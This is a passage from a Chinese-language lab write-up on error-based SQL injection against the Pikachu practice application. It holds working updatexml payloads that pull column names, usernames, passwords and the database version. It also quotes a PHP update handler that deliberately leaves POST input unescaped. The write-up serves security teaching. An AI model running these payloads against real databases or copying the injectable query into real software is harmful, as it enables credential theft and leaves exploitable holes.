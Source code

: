 老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`

![image](../../../assets/img/安全/实验/pikachu/47.png)

老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`

![image](../../../assets/img/安全/实验/pikachu/48.png)

数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`

![image](../../../assets/img/安全/实验/pikachu/49.png)

下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败，请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意！！！这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`

![image](../../../assets/img/安全/实验/pikachu/50.png)
